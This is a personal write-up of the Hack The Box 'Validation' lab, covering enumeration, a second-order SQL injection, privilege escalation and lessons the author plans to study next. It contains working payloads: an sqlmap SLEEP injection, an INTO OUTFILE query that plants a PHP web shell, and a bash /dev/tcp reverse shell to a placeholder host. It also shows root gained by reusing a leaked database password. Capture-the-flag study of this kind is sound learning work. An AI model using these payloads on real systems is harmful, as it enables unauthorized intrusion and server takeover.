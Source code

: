 ```yaml
---
title: "Validation HTB"
date: 2021-09-24T17:30:30
categories:
  - study
tags:
  - Linux
  - Web
  - SQLi
  - Password Reuse
  - ClearText Credentials
classes: wide
---
```

Validation is an easy rated retired linux box made by Ippsec for the Ultimate Hacking Championship(UHC) qualifier. 

It can be found [here.](https://app.hackthebox.eu/machines/Validation/)

<h2> Enumeration</h2>
**Nmap scan results:**

```bash
22/tcp   open     ssh            syn-ack     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open     http           syn-ack     Apache httpd 2.4.48 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.48 (Debian)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
4566/tcp open     http           syn-ack     nginx
|_http-title: 403 Forbidden
5000/tcp filtered upnp           no-response
5001/tcp filtered commplex-link  no-response
5002/tcp filtered rfe            no-response
5003/tcp filtered filemaker      no-response
5004/tcp filtered avt-profile-1  no-response
5005/tcp filtered avt-profile-2  no-response
5006/tcp filtered wsm-server     no-response
5007/tcp filtered wsm-server-ssl no-response
5008/tcp filtered synapsis-edge  no-response
8080/tcp open     http           syn-ack     nginx
|_http-title: 502 Bad Gateway
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

<h4>What is the scan telling us?</h4>

- Port 22 is running the usual ssh, specifically OpenSSH 8.2p1 Ubuntu
- Port 80 is running an Apache http server, Apache 2.4.48.
- Port 4566, 8080 are running nginx servers?
- Ports 5000-5008 are appearing but are filtered despite the `-Pn` on the Nmap scan.

<h4> Why are these ports filtered?</h4>

0xdf may have provided an explanation on their [blog](https://0xdf.gitlab.io/2021/09/14/htb-validation.html#beyond-root):

>*"I noticed ports 5000-5008 were filtered in my initial nmap scan. These ports are actually different Docker instances of the same exploitable webapp (I think he actually used 5000-5031). Then he has a kernel module that is re-writing incoming packets for TCP 80 based on the source IP to one of the containers, so there’s significantly fewer players interacting with each instance."*

<h4>What is Nginx?</h4>

According to the [official site](https://www.nginx.com), Nginx is an *"open source web server that powers more than 400 million websites"*. It also seems to have features that allow it to be used as a reverse proxy, load balancer, mail proxy and HTTP cache.

**Gobuster:**

```
/index.php (Status: 200)
/account.php (Status: 200)
/css (Status: 301)
/js (Status: 301)
/config.php (Status: 200)
/server-status (Status: 403)
```

Navigating to http://10.10.11.116:4566/, we see 403 forbidden nginx. 
`/config.php` looks interesting but unfortunately returns a blank page.

Navigating to the main site on port 80 we see a username field and a drop down list of countries. The site seems to be asking us to "Register Now" for "Join the UHC - September Qualifiers". 
Inputting strings and clicking "Join Now" leads us to `/account.php` and a list of other usernames that have been entered before. Which suggests that this information has been stored.

Accessing `/account.php` from the index directly seems to bring us to the last country we submitted a username to, which suggests a cookie associated with the submission. Deleting the cookie results in the /account.php stage asking us to "Please register!".

Registering to Brazil again and we still see the usernames registered before, confirming the storage of input on the website.

**sqlmap**
```
Parameter: country (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=lVdH&country=Brazil' AND (SELECT 6558 FROM (SELECT(SLEEP(5)))TuOt) AND 'FzfL'='FzfL
---
do you want to exploit this SQL injection? [Y/n] y
[08:49:19] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian
web application technology: Apache 2.4.48, PHP 7.4.23
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
```

Sqlmap lets us know that the backend database is MySQL 5.012 and the site is running php 7.4.23, and there is clearly some capability for SQLi.

I admit that I don't know much about SQL and SQL injections. Gonna have to read the writeups for foothold.

<h2>Foothold</h2>

It seems that this website and database are vulnerable to something known as a second order SQL injection. [Portswigger](https://portswigger.net/kb/issues/00100210_sql-injection-second-order) describes this as:

>*"Second-order SQL injection arises when user-supplied data is stored by the application and later incorporated into SQL queries in an unsafe way. To detect the vulnerability, it is normally necessary to submit suitable data in one location, and then use some other application function that processes the data in an unsafe way."*

It seems that when we supply a country and username to the form we see that in burpsuite it looks like:

```
username=test&country=Brazil
```

And then if we add a single quote `'` to the end of Brazil. Like so:
```
username=test&country=Brazil'
```

We get as a response: 

```
Fatal error: Uncaught Error: Call to a member function fetch_assoc() on bool in /var/www/html/account.php:33 Stack trace: #0 {main} thrown in /var/www/html/account.php on line 33
```
This shows that the site is taking our user-supplied data and then incorporating it into the account.php query, a "Second-order SQL injection". So it is possible to write a file into the `/var/www/html` directory, which means we can place a simple php shell: 

```
username=test&country=Brazil' union select "<?php SYSTEM($_REQUEST['cmd']); ?>" into outfile '/var/www/html/rev.php'-- -
```

The initial command `union select` is indicating that we wish to execute additional select queries. The command `into outfile` is explained by the [mysql documentation](https://dev.mysql.com/doc/refman/8.0/en/select-into.html) as:

>*"The SELECT ... INTO OUTFILE 'file_name' form of SELECT writes the selected rows to a file. The file is created on the server host, so you must have the FILE privilege to use this syntax. file_name cannot be an existing file, which among other things prevents files such as /etc/passwd and database tables from being modified."*

So we are saying, whatever is selected in the backend, also select (union select) `"<?php SYSTEM($_REQUEST['cmd']); ?>"` (php webshell code) and put it into a file in `/var/www/html/` called `rev.php`. The addition of `-- -` at the end ensures that the command is ended as anything after the double hyphon and space is a comment.

From here we can navigate to our simple php shell and add commands like so:

```
http://10.10.11.116/rev.php?cmd=id

uid=33(www-data) gid=33(www-data) groups=33(www-data) 
```

Now we have RCE we can setup a reverse shell.

We setup our nc listener, find a bash tcp reverse shell, url encode it and then execute the following in the url:

```
10.10.11.116/rev.php?cmd=bash+-c+'bash+-i+>%26+/dev/tcp/YOURIP/YOURPORT+0>%261'
```

We then catch our shell, and have access as `www-data`. We navigate to `/home/htb` and find the userflag.


<h2>Privilege Escalation</h2>

Checking the writeup and it all seems so obvious...

Remember that blank `config.php` we saw in gobuster earlier?

It was blank because we did not have permission to view it.

Now we can read the contents:

```bash
www-data@validation:/var/www/html$ cat config.php
cat /var/www/html/config.php
<?php
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-9qual-global-pw";
  $dbname = "registration";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>

```

This password conveniently contains the phrase "global-pw", which could suggest it is a password to be used globally, it can be used to `su root`. We do this, enter the password and now we have a root shell!

The flag is found in the usual `/root/root.txt`.

<h4>For next time:</h4>

- Learn about SQL, learn how SQL injection works. There's a fun SQL murder mystery from [knight lab](https://mystery.knightlab.com/) that looks cool.
- Remember to enumerate the /www/html directory. Especially for a web box, config.php is a good find and should have been checked immediately. 


